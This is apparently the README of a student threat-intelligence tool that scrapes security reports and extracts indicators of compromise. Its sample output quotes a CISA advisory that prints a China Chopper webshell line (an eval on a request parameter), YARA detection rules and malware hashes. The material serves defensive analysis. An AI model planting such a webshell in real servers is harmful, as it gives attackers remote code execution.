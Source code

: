 # Capstone-MISP-Module

- [Capstone-MISP-Module](#capstone-misp-module)
  - [How to run the spider module](#how-to-run-the-spider-module)
## 1) How to run the spider module
1. Navigate to `Capstone-MISP-Module/web-crawler`
2. If not done already, install project dependencies with `pipenv install`
3. Open the python virtual environment for spider module with `pipenv shell`
4. Navigate back to root directory: `Capstone-MISP-Module/web-crawler`
5. Run the spider with `scrapy runspiderweb-crawler/infosecspider/spiders/scraper.py`, where `scraper.py` is the name of the scraping script in `infosecspider/spiders`. This will create an `/output/` folder inside the directory of `Capstone-MISP-Module/` which will contain all the web-scraped urls/blogs posts/technical reports.

### Viewing the initial folders created in /Capstone-MISP-Module/output/:
<div align="center"><img alt="First pass OCR transcription" width="400px" src="images/outputfoldervanilla.png"></div>


## 2) Setting up and How to run the Indicators Of Compromise (IOC) extraction module on the /outputs/ folder generated from step 1
1. Navigate to `Capstone-MISP-Module/`
2. `unzip cyobstract.zip` #Cyobstract IOC extraction tool authored by Sam-Perl, et al.
3. `python cyobstract/setup.py install` #install cyobstract dependencies
4. `pip install --upgrade --force-reinstall progress` #fixes library errors

- Sample code of how to utilize the initiate_ioc_extraction_main function. This function  and extracts all IOCs utilizing Cyobstract module

The parameters this function takes are:
  * path_outputs= takes the '/output' folder path from Section 1, where the scraped webpages are location in JSON format
  * view_scraping_within_last_hours= filter web-scraped-results based on the number of hours (note: this time is set when we run scraper.py from Section 1, and that all urls are scanned every time (to check for blog/technical reports updates, which might contain new IOCs)

```bash
from util.ioc_extract import initiate_ioc_extraction_main

#returns a dictionary of dicts or None
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(dictionary)
```

### Partial sample of output on a CISA analysis-report (url: https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d)
```bash
{'cisa': {'20210429-2315': {'ar21-072d.json': {'article_url': 'https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d',
    'asn': (),
    'asnown': (),
    'cc': ('China',),
    'cve': ('CVE-2021-26855', 'CVE-2021-27065'),
    'data': '\n\t\t\tNotification\n\n\t\t\t\n\t\t\tThis report is provided "as is" for informational purposes only. The Department of Homeland Security (DHS) does not provide any warranties of any kind regarding any information contained herein. The DHS does not endorse any commercial product or service referenced in this bulletin or otherwise.\n\n\t\t\tThis document is marked TLP:WHITE--Disclosure is not limited. Sources may use TLP:WHITE when information carries minimal or no foreseeable risk of misuse, in accordance with applicable rules and procedures for public release. Subject to standard copyright rules, TLP:WHITE information may be distributed without restriction. For more information on the Traffic Light Protocol (TLP), see http://www.us-cert.gov/tlp.\n\n\t\t\tFor a downloadable copy of IOCs, see: MAR-10329297-1.v1.stix.\n\t\t\t\n\n\t\t\tSummary\n\n\t\t\t\n\t\t\tDescription\n\n\t\t\tCISA received two unique files for analysis. These files appear to contain configuration data for two different Microsoft Exchange Offline Address Book (OAB) Virtual Directories (VD) extracted from a Microsoft Exchange Server. Both output files show malicious modifications for the ExternalUrl parameters for these two OAB VDs on the targeted Exchange Servers. In one of the OAB VDs, the ExternalUrl parameter contains a "China Chopper" webshell which may permit a remote operator to dynamically execute JavaScript code on the compromised Microsoft Exchange Server. The second file is modified with an authentication key.\n\n\t\t\tSubmitted Files (2)\n\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd (2XJHwN19.aspx)\n\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8 (UwSPMsFi.aspx)\n\t\t\t\n\n\t\t\tFindings\n\n\t\t\t\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\n\t\t\tTags\n\n\t\t\tbackdoortrojanwebshell\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\tUwSPMsFi.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2186 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tHTML document, ASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t78564702783ba738aa6a920f3b15a202\n\t\t\t\t\tSHA1\n\t\t\t\t\t\ta75fa74ae35ce20c9cfc273c219ef58f1c4714a6\n\t\t\t\t\tSHA256\n\t\t\t\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\t\t\t\t\tSHA512\n\t\t\t\t\t\t63afff12ac7cfd65ba31aad61bab534040fc3ff8b782336fcdbe171bf43f733734770c5f11bfbf9f4b5a1beaf279e8ad8d6509ff6e07b7afba098a8e6ba52a6c\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t24:kNrde9/xL+rJTh91Q/PSR6j0SzMaEVMr6j71idfhLhgupVFgdUYC2E4ONF0qp0Bz:kNrdezC1BO0KM5QZLh9pV/YE4ONF0qBW\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.662408\n\t\t\t\t\tAntivirus\n\n\t\t\tAhnlab\n\t\t\t\t\t\tExploit/ASP.Cve-2021-27065.S1406\n\t\t\t\t\tAvira\n\t\t\t\t\t\tEXP/CVE-2021-27065.1\n\t\t\t\t\tBitDefender\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tClamAV\n\t\t\t\t\t\tAsp.Trojan.Webshell0321-9840176-0\n\t\t\t\t\tEmsisoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112 (B)\n\t\t\t\t\tIkarus\n\t\t\t\t\t\tExploit.ASP.CVE-2021-27065\n\t\t\t\t\tLavasoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tMcAfee\n\t\t\t\t\t\tExploit-CVE2021-27065.a\n\t\t\t\t\tMicrosoft Security Essentials\n\t\t\t\t\t\tExploit:ASP/CVE-2021-27065\n\t\t\t\t\tQuick Heal\n\t\t\t\t\t\tCVE-2021-26855.Webshll.41350\n\t\t\t\t\tSophos\n\t\t\t\t\t\tTroj/WebShel-L\n\t\t\t\t\tSymantec\n\t\t\t\t\t\tTrojan.Chinchop\n\t\t\t\t\tTrendMicro\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tTrendMicro House Call\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_01 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Webshellz"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 65 76 61 6C 28 52 65 71 75 65 73 74 5B 22 [1-32] 5D 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 65 76 61 6C 28 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 28 52 65 71 75 65 73 74 2E 49 74 65 6D 5B [1-36] 5D 29 29 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s3 = { 49 4F 2E 53 74 72 65 61 6D 57 72 69 74 65 72 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s4 = { 57 72 69 74 65 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 or ($s1 and $s2) or ($s3 and $s4)\n\t\t\t\t}\n\t\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit an OAB VD in Internet Information Services (IIS) on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The OAB ExternalUrl parameter has been modified by a remote operator to include a "China Chopper" webshell which is likely an attempt to gain unauthorized access for dynamic remote code execution against a targeted Microsoft Exchange Server. In this file, the OAB ExternalUrl parameter was configured to accept JavaScript code which will be directly executed on the target system. The modification of the ExternalUrl parameter suggests the operator can dynamically submit queries to this Exchange OAB VD.\n\t\t\tThe ExternalUrl designation that normally specifies the Uniform Resource Locator (URL) used to connect to the VD from outside the firewall has been replaced with the following code:\n\t\t\t--Begin Code--\n\t\t\thxxp[:]//f/<script language="JScript" runat="server">function Page_Load(){eval(Request["[REDACTED]"],"unsafe");}</script>\n\t\t\t--End Code--\n\t\t\tNote: The hard-coded key used for authentication was redacted from the code above.\n\t\t\tThis code allows an attacker to access the shell using a password. Once accessed, the attacker is able to execute commands on the page with server (system) level privileges.\n\t\t\t\n\n\t\t\t\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\n\t\t\tTags\n\n\t\t\tbackdoor\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\t2XJHwN19.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2177 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t4580f7f2f2d7ac1af26693132c2e756d\n\t\t\t\t\tSHA1\n\t\t\t\t\t\t1fead8d37f73b87ab75d0096d49b797afe7d0445\n\t\t\t\t\tSHA256\n\t\t\t\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\t\t\t\t\tSHA512\n\t\t\t\t\t\tfceddb90d8a9445a726eefa6df7fe928006d6a29279138e1b7906534d3b188d08eda62a939617a7944889d8e2e160417600947f48d5704cb537e64b2523ba1a4\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t48:kNrdNC1BS67PQZLh9pVn3tE4ONF0qny/W:ktdcVM7n3mNCqny/W\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.495728\n\t\t\t\t\tAntivirus\n\n\t\t\tSophos\n\t\t\t\t\t\tTroj/ASPDoor-W\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit a OAB VD in IIS on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The configuration has been modified with a key in the \'ExternalUrl\' field. The key is most likely used for authentication to the server.\n\t\t\t\n\n\t\t\tMitigation\n\n\t\t\t\n\t\t\tIf you find these webshells as you are examining your system for Microsoft Exchange Vulnerabilities, please visit the https://us-cert.cisa.gov/remediating-microsoft-exchange-vulnerabilities website for further information on remediation.\n\t\t\t\n\n\t\t\tRecommendations\n\n\t\t\t\n\t\t\tCISA recommends that users and administrators consider using the following best practices to strengthen the security posture of their organization\'s systems. Any configuration changes should be reviewed by system owners and administrators prior to implementation to avoid unwanted impacts.\n\n\t\t\tMaintain up-to-date antivirus signatures and engines.\n\t\t\t\tKeep operating system patches up-to-date.\n\t\t\t\tDisable File and Printer sharing services. If these services are required, use strong passwords or Active Directory authentication.\n\t\t\t\tRestrict users\' ability (permissions) to install and run unwanted software applications. Do not add users to the local administrators group unless required.\n\t\t\t\tEnforce a strong password policy and implement regular password changes.\n\t\t\t\tExercise caution when opening e-mail attachments even if the attachment is expected and the sender appears to be known.\n\t\t\t\tEnable a personal firewall on agency workstations, configured to deny unsolicited connection requests.\n\t\t\t\tDisable unnecessary services on agency workstations and servers.\n\t\t\t\tScan for and remove suspicious e-mail attachments; ensure the scanned attachment is its "true file type" (i.e., the extension matches the file header).\n\t\t\t\tMonitor users\' web browsing habits; restrict access to sites with unfavorable content.\n\t\t\t\tExercise caution when using removable media (e.g., USB thumb drives, external drives, CDs, etc.).\n\t\t\t\tScan all software downloaded from the Internet prior to executing.\n\t\t\t\tMaintain situational awareness of the latest threats and implement appropriate Access Control Lists (ACLs).\n\t\t\tAdditional information on malware incident prevention and handling can be found in National Institute of Standards and Technology (NIST) Special Publication 800-83, "Guide to Malware Incident Prevention & Handling for Desktops and Laptops".\n\t\t\t\n\n\t\t\tContact Information\n\n\t\t\t\n\t\t\t1-888-282-0870\n\t\t\t\tCISA Service Desk (UNCLASS)\n\t\t\t\tCISA SIPR (SIPRNET)\n\t\t\t\tCISA IC (JWICS)\n\t\t\tCISA continuously strives to improve its products and services. You can help by answering a very short series of questions about this product at the following URL: https://us-cert.cisa.gov/forms/feedback/\n\t\t\t\n\n\t\t\tDocument FAQ\n\n\t\t\t\n\t\t\tWhat is a MIFR? A Malware Initial Findings Report (MIFR) is intended to provide organizations with malware analysis in a timely manner. In most instances this report will provide initial indicators for computer and network defense. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tWhat is a MAR? A Malware Analysis Report (MAR) is intended to provide organizations with more detailed malware analysis acquired via manual reverse engineering. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tCan I edit this document? This document is not to be edited in any way by recipients. All comments or questions related to this document should be directed to the CISA at 1-888-282-0870 or CISA Service Desk.\n\n\t\t\tCan I submit malware to CISA? Malware samples can be submitted via three methods:\n\n\t\t\tWeb: https://malware.us-cert.gov\n\t\t\t\tE-Mail: submit@malware.us-cert.gov\n\t\t\t\tFTP: ftp.malware.us-cert.gov (anonymous)\n\t\t\tCISA encourages you to report any suspicious activity, including cybersecurity incidents, possible malicious code, software vulnerabilities, and phishing-related scams. Reporting forms can be found on CISA\'s homepage at www.cisa.gov.\n\t\t\t\n\t\t\t\n\t\t',
    'email': ('submit@malware.us-cert.gov',),
    'filename': (),
    'filepath': (),
    'fqdn': ('ftp.malware.us-cert.gov',
     'malware.us-cert.gov',
     'us-cert.cisa.gov',
     'www.cisa.gov',
     'www.us-cert.gov'),
    'incident': (),
    'ipv4addr': (),
    'ipv4cidr': (),
    'ipv4range': (),
    'ipv6addr': (),
    'ipv6cidr': (),
    'ipv6range': (),
    'isp': (),
    'malware': ('asp.trojan.webshell0321-9840176-0',
     'exp/cve-2021-27065.1',
     'exploit-cve2021-27065.a',
     'exploit.asp.cve-2021-27065',
     'exploit/asp.cve-2021-27065.s1406',
     'exploit:asp/cve-2021-27065',
     'generic.asp.webshell.h.48a3b112',
     'troj/aspdoor-w',
     'troj/webshel-l',
     'trojan.chinchop'),
    'md5': ('4580f7f2f2d7ac1af26693132c2e756d',
     '78564702783ba738aa6a920f3b15a202',
     'ab3963337cf24dc2ade6406f11901e1f'), ...
```

## 3) (Optional) Expanding the current scraped urls through the use of google searches (blogs/technical reports/hacker news, etc) implemented in Capstone-MISP-Module/util/ioc_extract_expander.py

A powerful function of our tool comes from the power of allowing a user to expand their database by selecting a previously extracted ioc from a webpage/article for a deep search of the internet. Say you are a security expert and want to get as much information on a new malware with a particular IOC (say a particular MD5 hash). You can do this by running the function below, which will perform X number of google searches for your desired IOC, update the '/Capstone-MISP-Module/output/' folder with the new scraped-websites, and return all the extracted IOCs from how many google searches you specify. 

The parameters this function takes are:
  * dictionary= dictionary of IOCs you have scraped so far
  * article_lookup = name of an article which contains an IOC category you are interested in, i.e. MD5
  * num_google_results = how many google hits do you desired to be scraped for each IOC in the chosen IOC category
  * search_speed = speed of google searches (warning: do not set too low, or may be IP blocked by Google)


- Sample code to run ioc_extract_expander.py for one article
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches


#returns a dictionary of dicts or None (same as Section 2 above)
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

#updates 'Capstone-MISP-Module/output' folder with new entries through google searches
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup='ar21-084a.json', ioc='md5', num_google_results=10,search_speed=3)

print('\n----------------Break------------\n')

#We call again initiate_ioc_extraction_main() to generate a bigger dictionary utilizing all the newly google queried articles for the extraction of more IOCs above
bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(bigger_dictionary) #Will print a bigger dictionary containing all new articles. Won't show output here as it is a long dictionary.
```
- You could even call 'recursive_ioc_extractor_....' several times in a row as well (example use case: interested in obtaining more information of 2 new malwares through their MD5 hashes):
```bash
article_1= 'ar21-084a.json'
article_2= 'ar21-072e.json'
selected_ioc_type = 'md5'
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_1, ioc=selected_ioc_type, num_google_results=10,search_speed=3)
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_2, ioc=selected_ioc_type, num_google_results=10,search_speed=3)

even_bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

```

- Demonstration of expansion of scraped-websites folder in /Capstone-MISP-Module/output/ (compare to Section 1):

<div align="center"><img alt="First pass OCR transcription" width="600px" src="images/outputfolderexpanded.png"></div>

